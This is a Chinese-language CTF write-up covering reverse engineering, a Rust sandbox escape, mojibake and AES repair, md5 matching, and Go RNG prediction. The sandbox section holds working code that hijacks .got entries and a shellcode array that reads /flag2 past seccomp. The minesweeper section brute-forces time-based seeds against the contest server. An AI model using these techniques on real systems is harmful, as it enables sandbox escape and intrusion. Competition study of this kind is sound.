

之前提到了这里的 arg3 其实是一个 `ucontext_t*`, 它的是前程序的状态的上下文 (当然也包括所有的寄存器数据), 知道了这个之后, `*(arg3 + 0xa8)` 就很容易就能想到是结构体的寻址. 根据偏移量可以推断这里其实是访问了 `ucontext->uc_mcontext.gregs[REG_RIP]`. 这里 `ucontext->uc_mcontext.gregs` 是 23 个寄存器的数据, `REG_RIP` 是 `rip` 寄存器的编号. 也就是说, 这里直接访问了 `rip` 寄存器的数据. 不过有意思的是, 这里不但能访问寄存器数据, 还能直接修改寄存器数据 (包括 `rip`  寄存器), 这也就是 debugger 的基本实现原理. 到这里我们大概可以猜测这个函数的目的是输入一个 `rip` 值并将其修改为另一个值 (因为除了 `ucontext_t*` 中的 `rip` 被修改了, 其他任何内存地址都没有被写入数据). 这时我们用 C 语言简单复现一下这个函数, 拷贝相关数据, 枚举 elf 所有包含代码的 section 的每条指令的地址作为 `rip` 的值, 就可以得到一张乱序的调转表. 说是乱序, 其实还是有规律的, 这里我们截取一部分:

```c
0x1147 -> 0x1140
0x114c -> 0x1145
0x1153 -> 0x1147
0x1154 -> 0x114c
0x1155 -> 0x1153
0x1157 -> 0x1154
0x115e -> 0x1155
0x1160 -> 0x1157
```

由于 x86 架构指令长度是不固定的, 因此看起来不是很直观, 我们不如把相关的汇编代码也贴一下:



这样就不难看出, 每个对应的跳转地址都是它自身向上间隔一个指令的指令地址, 但别忘了, 手动触发 SIGTRAP 的时候可是 ip 寄存器会跳到 `int3` 之后的一条指令上的, 通过 eflags 自动触发的也不例外. 因此这段程序的实际执行顺序刚好跟它在内存中的储存相反! 这里 `puts` 函数的传参和调用顺序刚好验证了这一点.

当然这里展示的图片是特意挑了一段比较好分析的代码, 其中也包含了部分主要逻辑, 我实际做题时其实是分析了好几段代码片段最后才 jump 到这里的, 不过其实通过字符串也不难判断一部分核心逻辑就在这部分里面. 剩下的工作就是去反着把这段汇编代码反过来读一遍了. 注意下面这几行 (顺序已经调整过了, 正着读就行):

```
00001193  488d3d750e0000     lea     rdi, [rel data_200f]  {"%250s"}
00001191  31c0               xor     eax, eax  {0x0}
0000118e  4889ee             mov     rsi, rbp
00001189  e8f2feffff         call    __isoc99_scanf
00001186  4889ef             mov     rdi, rbp
00001181  e83f020000         call    sub_13c5
0000117f  84c0               test    al, al
0000117d  74d5               je      0x1154
00001176  488d3d980e0000     lea     rdi, [rel data_2015]  {"Good job!"}
00001171  e8cafeffff         call    puts
```

说明在读入完数据之后会调用 `sub_13c5` 这个函数, 并根据其返回值 (储存在 `rax` 中, 使用 `test al, al` 指令判断是否为 0) 确定是否跳转到 `0x1154`, 在下面就是打印 "Good job!". 因此, flag 应该就藏在 `sub_13c5` 这个函数中.



注意这里的代码顺序仍然是逆向的 (真.逆向工程), 因此我们要找的是 0x13c5 这个地址的上一条指令, 并反着读, 这里我们只要迭代 `ecx` 的值, 确定 `r8`, `r9`, `r10` 的值, 追踪 `edx`, 就能得到 flag (flag 的每个字节最后储存在 `edx` 中).


# 编原译理习题课 · 实验班

## Flag 1: 让程序出现段错误

#### 方法1: 通过递归使得栈溢出覆盖 .data 段数据

```rust
#![forbid(unsafe_code)]

#[link_section = ".data"]
pub fn run() { 
    let data = [0xffu8; 1 << 30];
    println!("{}", data[1 << 20]);
    run()
}
```

#### 方法2: 篡改 `.got` 表项

利用的是动态链接的原理, 想了解细节的建议去阅读一下[PLT and GOT - the key to code sharing and dynamic libraries](https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html). 用最简单的方式理解一下就是你把 `malloc` 的函数指针给改了 (虽然实际会复杂一些). 另外 `#[no_mangle]` 的作用是保留原始标识符. 

```rust
#![forbid(unsafe_code)]

#[no_mangle]
#[link_section = ".got"]
pub static malloc: [u8; 6] = [ 1, 1, 4, 5, 1, 4 ]; 
pub fn run() { }

//EOF
```

#### 方法3: 劫持 `.got` 表项 (不清楚这么表述是否准确)

这个更好理解一些, 相当于直接把函数体给换掉了, 让它不认 libc 里的 `malloc` 了, 直接一波认贼作父, 把你写的 `malloc` 当成它应该调用的 `malloc`. 注意虽然跟上一个方法只有 `.got` 变成了 `.text`, 但这里的 `[u8; 6]` 实际上是代码, 而不是地址! 这样编译出来的代码中的 `.got` 表中就没有 `malloc` 的地址了, 相当于把它给"劫持"了. 当然这个方法同样可以解第二问. 

```rust
#![forbid(unsafe_code)]

#[no_mangle]
#[link_section = ".text"] // this is not necessary
pub static malloc: [u8; 6] = [ 1, 1, 4, 5, 1, 4 ]; 
pub fn run() { }

//EOF
```

以下两张图分别是劫持 `malloc` 和不劫持 `malloc` 编译出来的 ELF:





## Flag 2: 读取打开的 /flag2 文件

同第一问的方法3, 但这里的 malloc 就是要执行的 shellcode 了.

```rust
#![forbid(unsafe_code)]

#[no_mangle]
#[link_section = ".text"]
pub static malloc: [u8; 53] = [
    0x48, 0xb8, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x50, 0x48, 0xb8, 0x2e, 0x67, 0x6d, 0x60, 0x66, 0x33, 0x1, 0x1, 0x48, 0x31, 0x4, 0x24, 0x6a, 0x2, 0x58, 0x48, 0x89, 0xe7, 0x31, 0xf6, 0xf, 0x5, 0x41, 0xba, 0xff, 0xff, 0xff, 0x7f, 0x48, 0x89, 0xc6, 0x6a, 0x28, 0x58, 0x6a, 0x1, 0x5f, 0x99, 0xf, 0x5,
];

pub fn run() { }

//EOF
```

不过既然都能用 shellcode 了, 那我用点 safe rust 的代码不更没啥问题了吗? 反正 seccomp 也不起作用了. 而且你甚至还可以让你的程序正常退出:

```rust
#![forbid(unsafe_code)]

use std::{fs::read_to_string, process::exit};

#[no_mangle]
#[link_section = ".text"]
fn __libc_start_main() { // `__libc_start_main` is also in `.got`
    println!("{}", read_to_string("/flag2").unwrap());
    exit(0);
}

pub fn run() { }

//EOF
```

当然也不一定非得是 `malloc`, `.got` 表中这么多小可爱, 凡是有机会被调用的都可以霍霍一遍, 包括可爱的  `__libc_start_main`. 下图就是一个 rust 程序中部分 `.got` 表项.




# 381654729

> 暴力出奇迹, 骗分过样例. 
>
> ​                                -- OI 民间谚语

这就是一个典型的暴力 dfs 加剪枝, 因为做的比较早, IPython 的历史记录里面找不到了, 所以代码就不贴了, 思路就是每次 dfs 时移位+判断, 如果长度等于 48 就说明找到结果了, 直接 return 即可.


# 乱码还原

由于 Shift-JIS -> UTF-8 的转换过程不是无损转换, 而且从结果上看存在 1 byte 对应一个汉字, 2 bytes 对应一个汉字两种可能的映射形式, 因此, 我们先要通过大量数据搞一个非常大的字典:

```python
def get_mapping(N: int = 256) -> (str, str, list):

    def rand_string(N: int) -> str:
        return ''.join(choice(string.printable) for _ in range(N))

    def enc(s: str) -> str:
        return s.encode("utf-8").decode("shift_jis", errors="ignore")

    def dec(s: str, errors = 'replace') -> str:
        return s.encode("shift_jis").decode('utf-8', errors=errors)

    mapping: Dict[Dict[str, int]] = {}

    for _ in range(N):

        s = rand_string(randint(1, 256))

        raw = Encrypt(s)[4:]
        encd = enc(raw)

        s1 = raw
        s2 = dec(encd)
        s3 = dec(encd, errors='backslashreplace')

        j = 0
        for i, (x, y) in enumerate(zip(s1, s2)):
            if x != y:
                if s3[j] == '\\':
                    if j + 4 >= len(s3) or s3[j + 4] != '\\':
                        k, v = s3[j : j + 4], mapping.get(s3[j : j + 4])
                        if v is not None:
                            mapping[k][x] = (mapping[k][x] + 1) if mapping[k].get(x) else 1
                        else:
                            mapping[k] = { x: i }
                        j += 3
                    else:
                        k, v = s3[j : j + 8], mapping.get(s3[j : j + 8])
                        if v is not None:
                            mapping[k][x] = (mapping[k][x] + 1) if mapping[k].get(x) else 1
                        else:
                            mapping[k] = { x: i }
                        j += 7
            j += 1

        assert j == len(s3)

    return mapping
```

以下是该字典的一部分:

```python
{
    '\\x81': {'遠': 171},
    '\\xe3': {'。': 540},
    '\\xe8': {'老': 354, '者': 2944, '蘇': 2971, '舍': 19},
    '\\xe8\\x81': {'老': 3079},
    '\\xe6\\xaf': {'怯': 32594},
    '\\xe9\\x99': {'陀': 13461},
    '\\xe4\\xbe': {'侄': 89025, '依': 62},
    '\\xe9\\x81': {'遠': 13364, '道': 37},
    '\\xe8\\xe9': {'老': 146, '蘇': 38, '者': 43},
    '\\xe4\\xb8': {'一': 16758, '三': 60, '上': 66, '不': 68, '世': 54},
}
```

可以发现, 这个字典中还是有很多 conflicts 的, 比如光是 `e8` 这一个数据就有两个几乎五五开的可能性, 当然这个 `e8` 也确实比较特殊, 需要特殊对待. 再接下来就是要去处理这个生成出来的大字典, 像是 `'\\xe4\\xb8': {'一': 16758, '三': 60, '上': 66, '不': 68, '世': 54},` 这组数据, 几乎可以确定`e4b8` 对应的就是 '一' 这个汉字, 其他的可能性可以忽略不计 (因为存在两种可能的映射形式, 所以这种小概率事件有可能是误判). 当然, 为了应对 conflict 的情况, 还专门开了一个 `conflict_map` 记录那些可能冲突的映射 (其实最后只有 `e8` 那一种 conflict 能用的上).

```python
mapping = get_mapping(8192)
conflict_map = {}
final_map_single = {}
final_map_double = {}

for byte_pair, count_dict in mapping.items():
    max_tuple: Tuple[str, int] = ('', 0)
    for c, n in count_dict.items():
        if n > max_tuple[1]:
            max_tuple = (c, n)
    conflict_map[byte_pair] = [max_tuple[0]]
    for c, n in count_dict.items():
        if n > max_tuple[1] // 2 and c != max_tuple[0]:
            conflict_map[byte_pair].append(c)
    if len(conflict_map[byte_pair]) == 1:
        if max_tuple[0] in TUDOU + BYTEMARK and max_tuple[1] > 20:
            (final_map_single if len(byte_pair) == 4 else final_map_double)[byte_pair] = max_tuple[0]
            conflict_map.pop(byte_pair)
```

解码, 到这一步 flag1 就出来了 (因为里面没有 `e8`), flag2 还需要继续处理

```python
flg = open('flag2.enc', 'r', encoding='utf-8').read().encode("shift_jis").decode('utf-8', errors='backslashreplace')

for x, y in final_map_double.items():
    flg = flg.replace(x, y)
for x, y in final_map_single.items():
    flg = flg.replace(x, y)
flg = flg.replace('\\xbc\\x9a', '：')

flg = flg.replace('\\xe8', '者')

print(flg.count('者'))
```

这里因为不确定 `e8` 是 '老', '者', '蘇' 这三种情况的那一种, 我们先全都替换成 '者'. 经过统计, '者' 有 158 个, 显然不可以枚举所以情况. 但由于 AES 是分组加密, 所以我们也可以分组处理.

```python
def dec_fo(ciphertext: str) -> bytes:
    if ciphertext.startswith('佛曰：'):
        ciphertext = ciphertext[3:]
        data = b''
        i = 0
        while i < len(ciphertext):
            if ciphertext[i] in BYTEMARK:
                i = i + 1
                data = data + bytes([TUDOU.index(ciphertext[i]) + 128])
            else:
                data = data + bytes([TUDOU.index(ciphertext[i])])
            i = i + 1
        return data
    else:
        raise Exception()

def decrypt(data: bytes) -> str:
    # 2. Use AES-256-CBC to Decrypt
    cryptor = AES.new(KEY, AES.MODE_CBC, IV)
    result = cryptor.decrypt(data)
    # 3. Remove Paddings (PKCS7)
    flag = result[-1]
    if flag < 16 and result[-flag] == flag:
        result = result[:-flag]
    # 4. Decode Plaintext with UTF-16 Little Endian
    return result.decode('utf-16le', errors='replace')

def try_dec(data: bytes) -> int:
    try:
        decrypt(data)
        return -1
    except UnicodeDecodeError as e:
        return e.start
```

分组处理的过程如下: 如果某个组无法解码, 那么首先看里面有没有万恶的 `0x8e`, 有, 则挨个可能性替换一遍, 看哪个能解出来, 都解不出来, 就跟没有 0x8e 的同样处理: 直接暴力枚举每个 index 的数据, 256 种可能挨个尝试一遍, 再不行就每次枚举两个, 再不行就每次....诶, 没有再不行了, flag 已经出来了.

```python
ERROR_BYTE = TUDOU.index('者')
REPLACEMENTS = [TUDOU.index('老'), TUDOU.index('蘇')]
corner_cases = {'世': '一', '三': '一', '怛': '明', '怖': '明', '有': '朋', '道': '遠', '上': '一', '多': '夜', '藐': '藝', '咒': '倒', '倒': '切', '不': '一', '栗': '明',}
CORNER_CASES = dict({(TUDOU.index(k), TUDOU.index(v)) for k, v in corner_cases.items()})


def decrypt_block(iv: bytes, data: bytes):
    assert len(data) == 16
    cryptor = AES.new(KEY, AES.MODE_CBC, iv)
    result = cryptor.decrypt(data)
    try:
        result = result.decode('utf-16le')
        for c in result:
            if c not in (string.ascii_uppercase + "234567"):
                raise Exception
        return result
    except Exception:
        return None


def try_correct_29(iv: bytes, group: bytes, idx: int) -> Tuple[bytes | None, bytes | None]:
    correct = bytearray(group)
    correct[idx] = REPLACEMENTS[0]
    result = decrypt_block(iv, correct)
    if result is not None:
        return result, bytes(correct)
    else:
        correct[idx] = REPLACEMENTS[1]
        result = decrypt_block(iv, correct)
        if result is not None:
            return result, bytes(correct)
        else:
            return None, None


data = dec_fo(flg)
assert len(data) % 16 == 0
groups = [data[i * 16: (i+1) * 16] for i in range(len(data) // 16)]
assert len(groups) * 16 == len(data)

dec_data = ""


for i, group in enumerate(groups):
    if i == 0:
        result = decrypt_block(IV, group)
    else:
        result = decrypt_block(groups[i - 1], group)
    if result is None:
        if group.count(29) > 0:
            result = None
            for idx in findall(group, 29):
                result, correct = try_correct_29(groups[i - 1], group, idx)
                if correct is not None:
                    groups[i] = bytes(correct)
                    break
            if result is None:
                print(i, 'err: ', list(group), group.count(29))
            else:
                dec_data += result
                # print(i, result, 29 in group, 'correct')
        else:
            result = None
            for k, v in CORNER_CASES.items():
                if k in group:
                    correct = bytearray(group)
                    correct[group.index(k)] = v
                    result = decrypt_block(groups[i - 1], correct)
                    if result is not None:
                        groups[i] = bytes(correct)
                        break
            if result is None:
                for idx in range(16):
                    for v in range(256):
                        correct = bytearray(group)
                        correct[idx] = v
                        result = decrypt_block(groups[i - 1], correct)
                        if result is not None:
                            groups[i] = bytes(correct)
                            break
                if result is None:
                    for idx0 in range(16):
                        for v0 in range(256):
                            for idx1 in range(16):
                                for v1 in range(256):
                                    correct = bytearray(group)
                                    correct[idx0] = v0
                                    correct[idx1] = v1
                                    result = decrypt_block(groups[i - 1], correct)
                                    if result is not None:
                                        groups[i] = bytes(correct)
                                        break
                    if result is None:
                        print(i, 'err: ', list(group), group.count(29))
                        print('prev: ', list(groups[i - 1]))
                    else:
                        dec_data += result
                        # print(i, result, 29 in group, 'correct')
                else:
                    dec_data += result
                    # print(i, result, 29 in group, 'correct')
            else:
                dec_data += result
                # print(i, result, 29 in group, 'correct')
    else:
        dec_data += result
        # print(i, result, group.count(29))
```

最后再解个码, 这一步肉眼观察 + 剥洋葱就行

```python
b64decode(a85decode(b64decode(a85decode(b64decode(a85decode(b16decode(b85decode(a85decode(b32decode(dec_data))))))))))
```


# 奇怪的加密

这种词频分析的古典密码题, 以前每次看见都直接跳过, 这次也不例外, 但看了提示发现 Flag 2 不需要词频分析 (都是 md5 分析个锤子), 结果就成了唯二的只作出 Flag 2 没作出 Flag 1 的人之一了, 不清楚另一位难兄难弟是不是也是遇到词频分析就头大连看都没看直接跳的 Flag 2 (Doge).

## Flag 2

提示说了数字不会加密, 二话不说直接挑里面纯数字部分开搜, 能发现都是 1 ~ 3 (或许) 个可见字符的字符串的 md5, 所以直接打个 md5 的映射表通过数字判断就可以了. (因为枚举 2 个就足够解出 flag 了, 但还有部分是 unknown, 所以我也不清楚每个单元字符数的上限是不是 3 个).

```python
from hashlib import *

def digits(hexdigits: str):
    return int("".join([c if c.isdigit() else "" for c in hexdigits]))

md5dict = {}
for i in range(ord('!'), ord('~') + 1):
    md5dict[digits(md5(chr(i).encode()).hexdigest())] = chr(i)

for i in range(ord('!'), ord('~') + 1):
    for j in range(ord('!'), ord('~') + 1):
        md5dict[digits(md5((chr(i) + chr(j)).encode()).hexdigest())] = chr(i) + chr(j)

md5list = ["b9pyi18f950iuevk6i0gnnxc4km731q3", ...]

corrects = {}

for md5value in md5list:
    try:
        ch = md5dict[digits(md5value)]
        orig = md5(ch.encode()).hexdigest()
        print(f"{md5value}: {ch} {orig}")
    except:
        print(f"{md5value}: unknown")
```


# 扫雷 II

这题其实 3 问都可以打表 (小声)

不过出于兴趣我还是去研究了一下 Golang 的随机数算法, 还是优点意思的. Golang 用的不是一般 $(x \times a + b) \div c \ \text{mod} \ m$ 或者梅森旋转算法实现的, 而是用的一种叫做 Lagged Fibonacci Generator 实现的, 公式十分简洁: $S_n = S_{n-j} + S_{n-k}$ (除了伽罗瓦域上的加法, 也可以是其他二进制运算, 比如异或之类的). 具体可以参考下面的资料:

https://appliedgo.net/random/

https://en.wikipedia.org/wiki/Lagged_Fibonacci_generator

https://asecuritysite.com/encryption/fab

## Flag 1

打表:

```go
func main() {
    timeStart := 1669370769434
    file, _ := os.OpenFile("list.txt", os.O_CREATE|os.O_WRONLY, 0644)

    for i := 0; i < 10_000; i++ {
        rand.Seed(timeStart + int64(i))
        s := ""
        for j := 0; j < 64; j++ {
            var word uint16 = 0
            for k := 0; k < 16; k++ {
                word ^= uint16((rand.Intn(257))%2) << k
            }
            s += fmt.Sprintf("%04x ", word)
        }
        _, _ = file.WriteString(s + "\n")
    }
}
```

编码解码棋盘:

```python
def encode_board(data: List[List[int]]) -> str:
    result = ""
    for line in data:
        word = 0
        for i, x in enumerate(line):
            word ^= (1 if x < 0 else 0) << i
        result += f"{word:0{4}x} "
    return result

def decode_board(s: str) -> List[List[int]]:
    result = []
    for line in s.strip().split(" "):
        result.append([(int(line, 16) >> i) & 1 for i in range(16)])
    return result
```

查找获取第一组数据

```python
url = "https://prob14-ujigj97q.geekgame.pku.edu.cn/"
session = requests.session()
print(int(time() * 1000))
session.post(url + "reset")
print(session.post(url + "init", data={'level': 2}).text)
print(int(time() * 1000))
data = session.post(url + "click", data={'x': randint(0, 15), 'y': randint(0, 15)}).json()['boom']
```

查表:

```sh
cat list.txt | grep "caf7 d0b5 badc a794 8363 12d6 6241 d317 fa41 6b20 8c09 0e56 8798 ff9f 8737 fa53"
```

自动点击:

```python
def send_clicks(data: str):
    for x, line in enumerate(decode_board(data)):
        for y, col in enumerate(line):
            if col == 0:
                print(session.post(url + "click", data={'x': x, 'y': y}).text)
```

## Flag 2

Flag 2 除了数据编码方式有些不同外跟 Flag 1差不多, 毕竟那个真随机也就 256 中可能, 每组数据打 260 个 `uint64` 就能保证覆盖了, 就是那个 `int(rand.Uint64() % 20221119)` 会耗些时间, 不过时间卡的准的话不至于打不完

```go
func main() {
    const timeStart = 1669370769434
    file, _ := os.OpenFile("list.txt", os.O_CREATE|os.O_WRONLY, 0644)

    for seedOffset := 0; seedOffset < 1_000; seedOffset++ {
        rand.Seed(timeStart + int64(seedOffset))
        rn := int(rand.Uint64() % 20221119)
        for i := 0; i < rn; i += 1 {
            rand.Uint64()
        }
        s := ""
        for j := 0; j < 260; j++ {
            s += fmt.Sprintf("%016x ", rand.Uint64())
        }
        _, _ = file.WriteString(s + "\n")
    }
}
```

```python
def encode_board(data: List[List[int]]) -> str:
    result = ""
    for i in range(4):
        int64 = 0
        for j, line in enumerate(data[i*4: (i+1)*4]):
            for k, x in enumerate(line):
                int64 ^= (1 if x < 0 else 0) << ((j*16)+k)
        result += f"{int64:0{16}x} "
    return result

def decode_board(s: str) -> List[List[int]]:
    board = [[0] * 16 for _ in range(16)]
    k = [int(x, 16) for x in s.strip().split(' ')[:4]]
    for i in range(16):
        for j in range(16):
            board[i][j] = (k[i//4] >> ((i%4)*16+j) )& 1
    return board
```

## Flag 3

Flag 3 的棋盘是奇偶交错的, 也就是有一半还多的数据是被保留的, 打表过程也基本不变:

```python
func main() {
    const timeStart = 1669394915098
	file, _ := os.OpenFile("list.txt", os.O_CREATE|os.O_WRONLY, 0644)

	for i := 0; i < 10_000; i++ {
		rand.Seed(timeStart + int64(i))
		s := ""
		for j := 0; j < 64; j++ {
			var word uint16 = 0
			for k := 0; k < 16; k++ {
				word ^= uint16((rand.Intn(257))%2) << k
			}
			if j%2 == 0 {
				word &= 0b_1010_1010_1010_1011
			} else {
				word &= 0b_1101_0101_0101_0101
			}
			s += fmt.Sprintf("%04x ", word)
		}
		_, _ = file.WriteString(s + "\n")
	}
}
```

```python
def encode_board(data: List[List[int]]) -> str:
    result = ""
    for i, line in enumerate(data):
        word = 0
        for j, x in enumerate(line):
            word ^= (1 if x < 0 else 0) << j
        word &= (
            0b_1010_1010_1010_1011 if i % 2 == 0 else
            0b_1101_0101_0101_0101
        )
        result += f"{word:0{4}x} "
    return result

def decode_board(s: str) -> List[List[int]]:

    EVEN_DETS = {0, 1, 3, 5, 7, 9, 11, 13, 15}
    ODD_DETS = {0, 2, 4, 6, 8, 10, 12, 14, 15}

    result = []
    for i, line in enumerate(s.strip().split(" ")[:16]):
        result.append([(int(line, 16) >> i) & 1 for i in range(16)])
        for j in set(range(16)) - (EVEN_DETS if i % 2 == 0 else ODD_DETS):
            result[i][j] = 2
    return result
```

